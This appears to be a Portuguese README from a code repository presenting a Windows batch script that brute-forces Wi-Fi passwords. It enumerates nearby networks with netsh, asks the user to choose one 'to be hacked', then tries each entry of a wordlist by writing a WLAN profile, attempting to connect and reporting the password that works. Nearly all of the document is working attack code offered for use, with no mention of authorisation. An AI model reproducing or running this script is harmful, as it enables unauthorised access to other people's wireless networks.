 # BruteForce de Wi-fi com CMD ( Prompt de comando do Windows )

---

### Lembrando
**Antes de iniciar o programa, é preciso criar um wordlist.txt no mesmo diretório do programa**

---

Estarei mostrando uma forma de usar o método de Brute Force para Wi-Fi no Windows;
**Resaltando que este Brute Force foi feito no WIndows 10** *(Caso você for testar em uma outra versão, talvez não funcione por conta das "Frases de retorno que contém no código" mas pode ser editado de acordo com o que é retornado :D)* 

### Começando
O comando `netsh wlan show networks bssid` verifica todas as redes wi-fi disponíveis 
 ao alcance de seu adaptador de rede wireless

As únicas informações necessárias para mim seria o SSID e o tipo de Autenticação, para isso usei um filtro com o comando **Find** e **Findstr** abaixo:

```
netsh wlan show networks bssid | findstr "SSID Autentica" | findstr /v "BSSID">o
type o | find "SSID" | find /n ":">u
type o | find "Autentica" | find /n ":">i
type u
```
Na sequência usei o Comando **for** foi usado para separar o que eu queria
```
set /p bf="Na lista acima, escolha um numero do Wifi para ser hackeada: "

for /f "tokens=1,2* delims=:" %%a in ('find "[%bf%]" u') do (
	for /f "tokens=1* delims= " %%e in ("%%b") do (
		if "%%f" EQU "" (
			set select=%%e
		)else (
			set select=%%e %%f
		)
	)
)

for /f "tokens=1,2 delims=:" %%a in ('find "[%bf%]" i') do (
	
	for /f "tokens=1,2 delims= " %%e in ("%%b") do (
		for /f "tokens=1,2 delims=-" %%m in ("%%e") do (
			set tipo=%%m
		)
	)
)
```
No código abaixo eu peço para que converta o nome da rede wi-fi que no *For* foi separado e converta em hexadecimal, ( *Eu não encontrei uma forma de fazer isso no cmd, quem souber, adicione seu commit* ) porem eu utilizo o Python pra isso, ou algum site que faça a conversão essa parte é manual mesmo, por enquanto
```
cls
echo.
echo Copie o nome da rede "%select%" Sem as aspas e converta em Hexadecimal
echo.
echo.
set /p hexa="Cole o Hexadecimal aqui: "
cls
```
Agora vem a parte final onde eu adiciono um perfil de rede wireless para poder me conectar e testo a conexão; caso funcione ele conecta e finaliza;
```

for /f "tokens=*" %%a in (wordlist.txt) do (
	echo ^<?xml version="1.0"?^> >"Wi-Fi-%select%.xml"
	echo ^<WLANProfile xmlns="http://www.microsoft.com/networking/WLAN/profile/v1"^> >>"Wi-Fi-%select%.xml"
	echo 	^<name^>%select%^</name^> >>"Wi-Fi-%select%.xml"
	echo 	^<SSIDConfig^> >>"Wi-Fi-%select%.xml"
	echo 		^<SSID^> >>"Wi-Fi-%select%.xml"
	echo 			^<hex^>%hexa%^</hex^> >>"Wi-Fi-%select%.xml"
	echo 			^<name^>%Select%^</name^> >>"Wi-Fi-%select%.xml"
	echo 		^</SSID^> >>"Wi-Fi-%select%.xml"
	echo 	^</SSIDConfig^> >>"Wi-Fi-%select%.xml"
	echo 	^<connectionType^>ESS^</connectionType^> >>"Wi-Fi-%select%.xml"
	echo 	^<connectionMode^>auto^</connectionMode^> >>"Wi-Fi-%select%.xml"
	echo 	^<MSM^> >>"Wi-Fi-%select%.xml"
	echo 		^<security^> >>"Wi-Fi-%select%.xml"
	echo 			^<authEncryption^> >>"Wi-Fi-%select%.xml"
	echo 				^<authentication^>%tipo%PSK^</authentication^> >>"Wi-Fi-%select%.xml"
	echo 				^<encryption^>AES^</encryption^> >>"Wi-Fi-%select%.xml"
	echo 				^<useOneX^>false^</useOneX^> >>"Wi-Fi-%select%.xml"
	echo 			^</authEncryption^> >>"Wi-Fi-%select%.xml"
	echo 			^<sharedKey^> >>"Wi-Fi-%select%.xml"
	echo 				^<keyType^>passPhrase^</keyType^> >>"Wi-Fi-%select%.xml"
	echo 				^<protected^>false^</protected^> >>"Wi-Fi-%select%.xml"
	echo 				^<keyMaterial^>%%a^</keyMaterial^> >>"Wi-Fi-%select%.xml"
	echo 			^</sharedKey^> >>"Wi-Fi-%select%.xml"
	echo 		^</security^> >>"Wi-Fi-%select%.xml"
	echo 	^</MSM^> >>"Wi-Fi-%select%.xml"
	echo 	^<MacRandomization xmlns="http://www.microsoft.com/networking/WLAN/profile/v3"^> >>"Wi-Fi-%select%.xml"
	echo 		^<enableRandomization^>false^</enableRandomization^> >>"Wi-Fi-%select%.xml"
	echo 	^</MacRandomization^> >>"Wi-Fi-%select%.xml"
	echo ^</WLANProfile^> >>"Wi-Fi-%select%.xml"
	echo ===================================
	echo.
	echo Testando Senha: %%a
	echo Aguade...
	netsh wlan disconnect
	netsh wlan add profile filename="Wi-Fi-%select%.xml">nul
	ping /n 2 127.0.0.1>nul
	netsh wlan connect "%select%">nul
	ping /n 15 127.0.0.1>nul
	netsh wlan show interfaces | find "Estado">connectStatus
	for /f "tokens=1* delims=:" %%d in (connectStatus) do (
		for /f "tokens=1* delims= " %%m in ("%%e") do (
			if %%m EQU Desconectado (
				echo Acesso Negado
			)else (
				echo Acesso Permitido
				set password=%%a
				goto fim
			)
		)
	)
	echo.
	echo ===================================
	
)
```
Abaixo é só a finalização e exclusão dos arquivos;
```
:fim
echo.
echo.
echo Senha de acesso: %password%
del /f /q connectStatus
del /f /q a
del /f /q o
del /f /q u
del /f /q i
del /f /q "Wi-Fi-%select%.xml"
echo.
echo.
pause
```

Meu perfil Facebook: https://www.facebook.com/100001371062730

Autor: Dayvson Vinicius

Data Crição: 18/02/2018